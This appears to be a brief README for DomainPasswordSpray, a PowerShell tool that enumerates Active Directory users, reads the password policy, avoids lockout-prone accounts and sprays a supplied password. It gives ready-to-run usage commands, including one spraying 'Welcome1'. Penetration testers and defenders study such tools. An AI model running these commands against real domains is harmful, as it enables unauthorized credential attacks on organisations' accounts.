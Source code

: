 -- -
PowerShell script for enumerating and password spraying AD. If authenticated to the domain, it will:
- Generate a userlist
- Query the password Policy
- Exclude accounts within one attempt of lock out
- Password spray on generated user list if password string is provided
#### Usage
```powershell
Import-Module .\DomainPasswordSpray.ps1 # import module to use it
Invoke-DomainPasswordSpray -Password <str> -Outfile <output file> -ErrorAction SilentlyContinue

Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```